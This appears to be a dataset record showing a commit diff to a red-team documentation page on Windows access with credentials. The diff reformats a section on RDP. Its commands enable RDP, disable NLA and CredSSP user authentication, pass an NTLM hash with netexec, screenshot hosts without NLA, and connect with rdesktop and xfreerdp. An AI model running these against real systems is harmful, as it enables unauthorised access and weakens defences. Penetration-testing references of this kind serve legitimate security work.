

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/redteam/access/windows-using-credentials.md, in a window 1280 px wide and 1400 px high, scrolled down 5925 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; emoji names are drawn with the system emoji font; comment, search, counter and statistics services are not loaded.

````diff
--- a/docs/redteam/access/windows-using-credentials.md
+++ b/docs/redteam/access/windows-using-credentials.md
@@ -247,27 +247,49 @@ class RemoteShell(cmd.Cmd):
 
 :warning: **NOTE**: You may need to enable RDP and disable NLA and fix CredSSP errors.
 
-```powershell
-# Enable RDP
-PS C:\> reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f
-PS C:\> netsh firewall set service remoteadmin enable
-PS C:\> netsh firewall set service remotedesktop enable
-# Alternative
-C:\> psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
-root@payload$ netexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable
+* Enable RDP
 
-# Fix CredSSP errors
-reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
-reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
+    ```powershell
+    PS C:\> reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f
+    PS C:\> netsh firewall set service remoteadmin enable
+    PS C:\> netsh firewall set service remotedesktop enable
 
-# Disable NLA
-PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired
-PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)
-```
+    # Alternative
+    C:\> psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
+    root@payload$ netexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable
+    ```
+
+* Fix CredSSP errors
+
+    ```ps1
+    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
+    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
+    ```
+
+**Network Level Authentication** requires the user to authenticate before a remote desktop session is fully established. This happens before the remote desktop interface is loaded, reducing the risk of certain attacks.
+
+* Take screenshot when NLA is disabled
+
+    ```ps1
+    netexec rdp 10.10.10.10 -u user -p pass --nla-screenshot
+    ```
+
+* Disable NLA
+
+    ```ps1
+    PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired
+    PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)
+    ```
 
 Abuse RDP protocol to execute commands remotely with the following commands;
 
-* `rdesktop`
+* [Pennyw0rth/netexec](https://github.com/Pennyw0rth/NetExec)
+
+    ```ps1
+    netexec rdp 10.10.10.10 -u user -p pass
+    ```
+
+* [rdesktop](http://www.rdesktop.org/)
 
     ```powershell
     root@payload$ rdesktop -d DOMAIN -u username -p password 10.10.10.10 -g 70 -r disk:share=/home/user/myshare
@@ -276,7 +298,7 @@ Abuse RDP protocol to execute commands remotely with the following commands;
     # -r disk:share : sharing a local folder during a remote desktop session
     ```
 
-* `freerdp`
+* [freerdp](https://www.freerdp.com)
 
     ```powershell
     root@payload$ xfreerdp /v:10.0.0.1 /u:'Username' /p:'Password123!' +clipboard /cert-ignore /size:1366x768 /smart-sizing
````
Also changed, not shown: other parts of docs/redteam/access/windows-using-credentials.md (+1 -1 lines), docs/active-directory/ad-adds-groups.md (+17 -2 lines), docs/active-directory/ad-adds-recycle-bin.md (added, +82 -0 lines), docs/active-directory/ad-roasting-kerberoasting.md (+17 -9 lines), docs/active-directory/pwd-read-gmsa.md (+3 -1 lines), docs/cloud/azure/azure-access-and-token.md (+3 -2 lines), docs/cloud/azure/azure-ad-connect.md (+7 -6 lines).
